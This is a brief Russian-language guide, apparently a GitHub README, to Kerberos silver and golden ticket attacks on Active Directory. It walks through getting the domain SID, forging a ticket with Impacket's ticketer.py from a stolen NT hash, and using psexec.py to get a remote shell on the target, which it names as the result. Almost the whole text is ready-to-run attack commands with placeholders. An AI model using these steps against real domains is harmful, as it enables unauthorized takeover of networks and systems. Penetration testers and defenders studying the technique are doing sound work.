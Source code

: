 # **Silver ticket/Golden ticket**

**Silver ticket/Golden ticket attack guide**

**Инструкция:**

- Узнаём с помощью любой машины в домене DomainSID.

`PS C:\ Get-ADDomain -Identity <domain.net>`

- Генерируем тикет.

`# python3 ticketer.py -nthash <hash> -domain-sid <domain-sid> -domain <domain.net> -spn <spn> <username>`

- Получаем доступ к машине.

`# export KRB5CCNAME = <ccache_file>`

`# python3 psexec.py <domain.net>/<username>@<ip_of_dc>`


**Результат:**

Шелл на атакуемой машине.
